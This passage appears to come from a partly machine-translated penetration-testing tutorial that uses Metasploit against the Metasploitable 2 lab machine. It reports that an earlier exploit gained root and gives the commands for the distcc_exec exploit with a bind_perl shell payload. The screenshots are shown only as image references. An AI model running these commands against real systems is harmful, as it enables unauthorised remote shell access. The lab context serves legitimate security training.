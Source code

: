     输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_030.jpg)

3.  The exploit ran successfully and we got to the root of the system. Let us check out an other vulnerability from the vulnerability-assessment scan we did for Metasploitable 2\. Enter the following commands in terminal:

    ```
          search distcc
          use exploit/unix/misc/distcc_exec
          set payload cmd/unix/bind_perl
          set rhost <Target IP address>
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_031.jpg)
